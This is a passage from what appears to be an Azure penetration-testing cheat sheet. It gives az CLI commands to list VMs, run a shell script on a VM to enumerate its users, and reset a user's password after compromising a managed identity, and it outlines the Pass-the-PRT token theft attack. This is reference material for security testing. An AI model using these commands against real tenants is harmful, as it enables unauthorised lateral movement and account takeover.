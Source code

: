 ```
- In case the Managed Identity of a compromised Linux/Windows VM has Owner rights for exemple on the Resource Group. We can try to move laterally and compromised other Vitual Machines within the same resource group.  

--> Using Azure Virtual Machines **Run Command** feature.  

1. List VM within the Resource Group  
```
az vm list -g Demo --output table
```

2. Listing user on Linux VM
```
az vm run-command invoke -g Demo -n LinuxVM02 --command-id RunShellScript --scripts "getent passwd | awk -F: '{ print $1}'"
```

3. Change user password
```
az vm user update -u testaccount -p WeakPassw0rd! -n LinuxVM02 -g Demo
```

#### Cloud Application Administrator Role
- Users in this role can create and manage all aspects of applications
- Application Administrators can manage application credentials that allows them to impersonate the application.

List all Azure applications:  
```
az ad app list --all
```

- Tool appJack.py

- https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/

#### Pass-the-PRT
- https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token  s
**Primary Refresh Token** (PRT) is a special high privileged refresh token where you can request **access tokens** for any registered application in Azure and Microsoft 365 to authenticate against it. Compared to Active Directory in on-premises networks, it is the equivalence to the Ticket Granting Ticket (TGT).

- JSON Web Token (JWT)
- Storage
	- Cached by Cloud AP in LSASS
	- Session key protected by TPM (if present)
- Validity
	- Valid for 14 days
	- Renewed every 4 hours
- Invalidation
	- Invalid user (deleted/disabled)
	- Invalid device
	- Password change

![prtcookie](https://docs.microsoft.com/en-us/azure/active-directory/devices/media/concept-primary-refresh-token/prt-initial-sign-in.png)

##### Attack
1. Pass-The-PRT
	- Steal the PRT from LSASS on victim's computer
	- Generate a PRT cookie on attacker's computer
	- Use the cookie to fetch an access token from Azure AD

```